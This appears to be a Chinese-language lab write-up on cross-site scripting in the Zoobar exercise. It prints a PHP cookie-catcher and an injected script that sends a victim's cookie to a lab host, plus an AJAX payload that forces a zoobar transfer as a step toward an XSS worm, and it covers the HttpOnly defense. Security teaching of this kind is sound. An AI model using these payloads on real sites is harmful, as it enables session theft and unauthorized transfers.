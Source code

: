 什么时候客户端会执行攻击者注入的代码呢？ $\rightarrow$ 网站接收用户输入，并使用该输入构造页面（显示之类）。最简单的检测方法就是输入 `<script>alert(1);</script>` 看会不会显示弹框，有弹框，说明此处存在可以利用的 XSS 漏洞。例如，想窃取相关内容（如用户 cookie），攻击者需要编写 JS 将 cookie 发送出去，并通过 PHP 代码接收 cookie。

```
# steal.php
<?php
$myfile=fopen("test.txt","w");
fwrite($myfile,$_GET["cookie"]);
?>

# cookie 用户的 profile
<script>(new Image()).src="http://www.fool.com/steal.php?cookie="+document.cookie</script>
```
登录用户 alice，访问 cookie，查看结果，可以看到原本为空的 test.txt 文件中接收到了 alice 的 cookie。

![](https://github.com/Yudreamy/classlater/blob/master/web/exercise3/picture/alice.PNG)

![](https://github.com/Yudreamy/classlater/blob/master/web/exercise3/picture/xss-cookie.PNG)

此处的防御可以将 cookie 设置为 HttpOnly，`setcookie ( string $name [, string $value = "" [, int $expires = 0 [, string $path = "" [, string $domain = "" [, bool $secure = FALSE [, bool $httponly = FALSE ]]]]]] ) : bool` 有七个参数，最后一个 $httponly 默认为 false，当为 true 时 cookie 只能通过 HTTP 协议访问，也即我们通过脚本语言来访问 cookie 无法成功。修改 auth.php 中的 setcookie，修改后重启 apache2，再次登录 alice 查看 cookie 用户，发现此时刷新 http://www.fool.com/test.txt 页面已经出现不了 ZoobarLogin 字段了，说明我们的 HttpOnly 设置起作用了。

```
setcookie($this->cookieName, $cookieData, time() + 31104000,NULL,NULL,NULL,true);
```

### XSS 蠕虫

XSS 根据其特性和利用方式可以分为三大类：反射型 XSS、存储型 XSS、DOM 型 XSS

* 反射型 XSS。经过后端，不经过数据库。一般出现在 URL 参数或网站搜索栏中，由于需要点击包含恶意代码的 URL 才可以触发，并且只能触发一次，所以也被称为“非持久性 XSS”
* 存储型 XSS。经过后端，经过数据库。一般出现在网站留言板、评论、个人资料等用户可以对网站写入数据的地方。例如，一个论坛评论由于对用户输入过滤不严格，导致攻击者写入一段窃取 cookie 的恶意 JS 代码到评论处，这段恶意代码就会被写入数据库，从而，当其他用户浏览攻击者页面时，网站从数据库中读取攻击者写入的评论显示到网页中，恶意代码得到执行，导致用户 cookie 被窃取，攻击者无需受害者密码即可登录账户。上边这个攻击就是存储型 XSS，它是持久性 XSS，危害比反射型 XSS 大得多。
* DOM 型 XSS。不经过后端。基于 DOM 文档对象模型，前端脚本通过 DOM 动态修改页面，由于不与服务器进行交互，代码可见，从前端获取 DOM 中的数据在本地执行。常见的可以操纵 DOM 的对象：URL、location、referer 等。

```
# 先来看一个查询 view 就可以偷 zoobar 的代码，此前记得在 users.php 中 $allowed_tags 添加 `<script>` 标签。
<script>
xmlhttp=new XMLHttpRequest();						# 创建一个 XMLHttpRequest 对象
xmlhttp.open("POST","https://www.zoobar.com/transfer.php",true);					# 打开一个 URL，true 控制异步
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");		# enctype，默认编码类型
xmlhttp.send("zoobars=2&recipient=xsszoobar&submission=Send");						# 发送该请求
</script>
```

我们需要在 Ajax(Asynchronous JavaScript and XML)(异步的 JavaScript 和 XML) 作用下，完成一个 XSS 蠕虫，蠕虫有传播性，用户浏览页面被感染之后，自己也会成为一个攻击源去感染其他人。Ajax 可以异步执行，局部更新，节省带宽，速度更快；与 JS 不同，Ajax 可以处理回复。新建 xssworm 用户，修改其 profile，代码实现当 xssworm 被他人查看时，完成偷取他人 zoobar 并修改其profile。
